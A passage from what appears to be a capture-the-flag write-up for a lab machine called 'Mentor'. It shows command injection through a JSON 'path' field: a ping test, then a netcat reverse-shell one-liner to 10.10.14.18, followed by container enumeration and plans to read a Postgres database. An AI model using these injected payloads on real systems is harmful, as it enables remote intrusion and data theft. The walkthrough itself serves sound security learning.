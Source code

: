 Then send:
```json
{
    "path": ";ping -c 5 10.10.14.18;"
}
```
Output:

![alt text](/assets/images/17-12-2024/mentor/icmp.png "ICMP")

Lovely! Last step is to try for a reverse shell:
```json
{
    "path": ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 5555 >/tmp/f;"
}
```
![alt text](/assets/images/17-12-2024/mentor/shell_docker.png "Docker Shell")

Cracking job, from here we can get `user.txt` in `/home/svc`
## Obtaining root.txt
### Out the Blowhole

Some enumeration of the host we identify this is a docker instance, primarily by the presence of `/.dockerenv`... kinda a big give away.

Reading over the files for the web application we come across `db.py`. Sometimes config or database files contain credentials. However, in this case it does not, though not all is lost.
There are multiple ways to attempt to access this Postgres instance, I took a boring approach and simply re-jigged the python file to read the database instead of creatng/writing. The code is at the end of this page.
